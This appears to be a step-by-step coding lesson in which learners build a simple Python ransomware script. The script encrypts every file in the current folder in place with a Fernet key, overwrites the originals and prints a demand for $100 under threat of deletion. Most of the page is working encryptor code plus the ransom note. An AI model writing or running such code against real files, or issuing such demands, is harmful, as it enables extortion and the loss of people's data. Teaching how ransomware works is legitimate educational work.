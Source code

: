 Encrypt the File Data
======================
In this activity, you will code to encrypt the files except the main.py or encryptedKey.key file.


<img src= "https://s3-whjr-curriculum-uploads.whjr.online/f50b92bd-501c-43cb-9398-fc0407a391e7.gif" width = "auto" height = "auto">




Follow the given steps to complete this activity.




1. Encrypt the File Data
* Open the file main.py.
* Loop through each path in the current folder and if the path is not of `main.py` and `encryptedKey.key` then add that file path to list `files`
```
for path in os.listdir():
    if (path == "main.py" or path == "encryptedKey.key"):
        continue
    if os.path.isfile(path):
        files.append(path)
```
.
* Add a `for` each loop that iterates through each file path in the `files` list to open the file and store its content.
```
for file in files:
    with open(file, "rb") as file1:
        rawData = file1.read()
```
* Encrypt the data read from the file using the Fernet key.
```
    encryptedRawData
    encryptedRawData = Fernet(key).encrypt(rawData)
```
* Save the encrypted data back in the same file.
```
    with open(file, "wb") as file2:
        file2.write(encryptedRawData)
```


* Notify the user on files being locked and can be accessible only on payment.
```
print("👹👹👹👹 All of your files has been encrypted send me $100 or I'll delete them in 24 hours!! 👹👹👹👹")


```


* Save and run the code to check the output.
